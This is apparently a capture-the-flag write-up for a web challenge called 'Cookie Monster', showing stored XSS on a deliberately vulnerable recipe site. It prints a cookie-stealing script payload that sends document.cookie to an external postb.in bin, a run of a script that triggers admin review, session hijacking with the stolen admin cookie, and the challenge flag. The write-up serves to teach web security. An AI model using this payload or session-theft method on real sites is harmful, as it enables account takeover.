






# Cookie Monster

## Challenge
* Category: Web Security
* Points: 200

Lets make some yummy cookies! Maybe you can even find some extra tasty ones: http://challenge.acictf.com:45101.

### Hints
* The admin can see the flag on the admin page.
* You can control the value so select all you want.
* If you need an endpoint for a callback, [postb.in](https://postb.in/) is a useful resource. You could also run a simple server on the competition's shell server using a command like python -m SimpleHTTPServer.


## Solution

### Tools
* Chrome > Dev Tools
* [postb.in](https://postb.in/)
* python script score.py


Before we get started, go to the challenge page http://challenge.acictf.com:45101 and familiarize yourself with the site. Right-Click > Inspect and then add a bunch of ingredients, click `Bake` and watch the changes that occur on the website. Lets document the process of baking and submitting a "Cookie" recipe for approval.

* Loading the website takes you to the `/cookie` endpoint in the URL.
* Here, you give your recipe a name and add "ingredients" like flower, sugar, etc to the form.
* Then you click `Bake!`, which does a `POST` to `/cookie/new` endpoint.
  * Take note of the ingredients `<script>...</script>` at the bottom of the page. We'll discuss this in a bit.
* After clicking `Bake!` we re-directed to a new endpoint `/cookie/ae55d3b7-a835-40ec-a0aa-5de7ba5f0f4e`. The uuid4 after `/cookie/` changes.
* This page contains 2 important parts.
  * First a `Submit For Approval by Cookie Monster` button which makes a `POST` to the `/approve` endpoint.
  * Second there is a link on the page to the `/admin` endpoint. Expand the `More Info` button on the top right and below `Give me cookie` is a link that activates when you hover over it.

Lets discuss what is going on with this page and forumlate an order of operations for exploiting this page. First, go [here](https://excess-xss.com/) and read up on XSS, paying close attention to `Cookie theft`.



Lets discuss the two areas of the HTML above I have marked in red.
* The box marked 1 is the form where we select ingredients we add to our recipe. We will demonstrate below they are not doing any input validation.
* The box marked 2 is the javascript that runs on the ingredients. If we are able to inject code above into a `value="some code"` from box 1, this section would run that code.

Try editing the value for the ingredient `flour`. Then click the `Bake!` button. I changed `<option value="laxatives">flour</option>` and clicked bake. Huzzah! We discovered they are not doing any input validation. Who would put `laxatives` in their cookies? This will serve as the source for our XSS injection.




Try putting some javascript in the `value=` form and see if it runs. Lets put `<script>window.alert('Hello World')</script>`.



Excellent. We now know what we inject into the ingredient form is executable. If you read [this](https://excess-xss.com/) article referenced above, you will know we are going to have to page callout to our endpoint and give us some information.

Go to https://postb.in/ and click `Create Bin`. Grab the URL and lets put it into some javascript. `<script>document.location='https://postb.in/1589057416057-1402036985382?hello='+document.cookie</script>`, add the `flour` ingredient, and click `Bake!`.  Our page redirects to our postb.in website and if you go back to your postb.in page and refresh, you will see it updated with callback information from our session. Specifically in our script we told the page to send the `document.cookie` over to our postb.in page.

This is cool and all, but so far we've only produced a client-side exploit. We are interested in a server-side exploit so we can access the admin page for the flag. This is where the script `score.py` comes into play. Lets break down that the script does.

#### score.py
* We will use python's [requests](https://requests.readthedocs.io/en/master/user/advanced/) library to create a session with the website
* Then the script does a `POST` to the `/cookie/new` endpoint with our payload in the data. This generates the `/cookie/<uuid4>` endpoint
* We need to regex the `cookie ID` from the server response so we can use it in the next `POST`
* Finally, the script does a `POST` to the `/approve` endpoint with the `cookie_id` we regexed in the data.

Edit score.py and modify the payload to match your postb.in url.
```
payload = '<script>document.location="https://postb.in/1589057416057-1402036985382?hello="+document.cookie</script>'
```
Now run score.py
```
$ python3 score.py
200
071161fa-c5db-4d26-a99a-d58c13342f10
http://challenge.acictf.com:45101/cookie/071161fa-c5db-4d26-a99a-d58c13342f10
200
b'\n<!doctype html>\n<html lang="en">\n  <head>\n    <meta charset="utf-8">\n    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">\n    <meta name="description" content="">\n    <meta name="author" content="">\n    <title>Cookie Monster\'s Recipies</title>\n\n    <!-- Bootstrap core CSS -->\n    <link href="/static/css/bootstrap.min.css" rel="stylesheet">\n    <style>\n.monster {\n  position:fixed;\n  width:600px;\n  height:100%;\n  bottom: -380px;\n  right: 0px;\n  opacity: .5;\n  background-image: url(/static/cookie_monster.png);\n  background-repeat: no-repeat;\n  pointer-events: none;\n}\n    </style>\n\n    <!-- Custom styles for this template -->\n  </head>\n\n  <body>\n    <header>\n      <div class="navbar navbar-light bg-light box-shadow fixed-top">\n        <div class="container d-flex justify-content-between">\n          <a href="#" class="navbar-brand d-flex align-items-center">\n            <strong>Cookie Monster\'s Cookies</strong>\n          </a>\n          <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarHeader" aria-controls="navbarHeader" aria-expanded="false" aria-label="Toggle navigation">\n            <span class="">More Info</span>\n          </button>\n        </div>\n      </div>\n      <div style="margin-top: 58px"></div>\n      <div class="collapse bg-dark" id="navbarHeader">\n        <div class="container">\n          <div class="row">\n            <div class="col-sm-8 col-md-7 py-4">\n              <h4 class="text-white">About</h4>\n              <p class="text-muted">Cookie monster like cookies and want to share with all you! Me let you share ways to make cookie here, but only if me likes your cookies enough...</p>\n            </div>\n            <div class="col-sm-4 offset-md-1 py-4">\n              <h4 class="text-white">Cookies</h4>\n              <ul class="list-unstyled">\n                <li><a href="/cookie" class="text-white">Give me cookie</a></li>\n                <li><a href="/admin" class="text-dark">Cookie Admin</a></li>\n              </ul>\n            </div>\n          </div>\n        </div>\n      </div>\n    </header>\n\n    <main role="main">\n\n<div class="album py-5 bg-light">\n<div class="container">\n  <div class="row">\n    <div class="col-6">\n      <h1 class="page-header">blarg</h1>\n      <p>1. Preheat the oven to 350</p>\n<p>2. Add in 2 ounces of <script>document.location="https://postb.in/1589057416057-1402036985382?hello="+document.cookie</script></p>\n<p>3. Bake for 42 minutes and allow to cool</p>\n    </div>\n    <div class="col-6">\n      \n          <button class="btn btn-warning" disabled>Cookie Monster is viewing this cookie</button>\n      \n    </div>\n  </div>\n</div>\n\n\n    </main>\n\n    <footer class="text-muted">\n      <div class="container">\n        <p class="float-right">\n        </p>\n        <p><a href="/cookie">Tell me about cookie</a></p>\n      </div>\n    </footer>\n\n    <!-- Bootstrap core JavaScript\n    ================================================== -->\n    <!-- Placed at the end of the document so the pages load faster -->\n    <script src="https://code.jquery.com/jquery-3.2.1.slim.min.js" integrity="sha384-KJ3o2DKtIkvYIK3UENzmM7KCkRr/rE9/Qpg6aAZGJwFDMVNA/GpGFF93hXpG5KkN" crossorigin="anonymous"></script>\n    <script>window.jQuery || document.write(\'<script src="../../assets/js/vendor/jquery-slim.min.js"><\\/script>\')</script>\n    <script src="/static/js/popper.min.js"></script>\n    <script src="/static/js/bootstrap.min.js"></script>\n    <script src="/static/js/holder.min.js"></script>\n    \n    \n    <div class="monster"></div>\n  </body>\n</html>\n'
```

This is great and all, but the score.py does not give us the flag. FYI, score.py just prints a bunch of stuff to make sure we are getting 200 response from the website.

Go over to your postb.in website and refresh the page. You should see a new entry.



We have successfully conducted a server-side exploit. The `session=4338c3c2-2b40-4bdf-94ae-ab9b8bc3fc68` is the admin's cookie.

Now you just have to use that session cookie to access the `/admin` endpoint.

Go back to the site, Right-Click > Inspect. Across the top of Chrome, Click the `Application` tab. On the left side expand Cookies and select our site. Paste the session cookie from our postb.in page into the session value.



Now on the cookie monster website, find that hidden `admin` link and click it. You should see something like this below:


Click your `Flag Cookie` for the flag.



**ACI{00892906aa63e2a1dc271d58816}**
